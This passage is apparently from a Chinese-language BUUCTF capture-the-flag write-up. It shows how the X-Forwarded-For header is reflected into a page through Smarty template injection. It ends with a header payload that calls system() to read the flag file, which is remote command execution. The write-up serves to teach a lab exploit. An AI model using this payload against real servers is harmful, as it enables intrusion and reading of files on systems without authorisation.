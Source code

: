 

这里`XFF`字段的内容会被拼接到相应页面上,那么是否可以利用此来执行命令

这里的知识点是`SSTI`中的`smarty`模板注入,具体见[SSTI](47d18edd.html)



<img src="/images/buuctf-web/image-20221018175617235-166704781973597.png" alt="image-20221018175617235" style="zoom:67%;" />



直接读取flag文件:

<img src="/images/buuctf-web/image-20221018184357732-166704781973598.png" alt="image-20221018184357732" style="zoom:67%;" />



```
X-Forwarded-For:{system("cat /flag")}
```
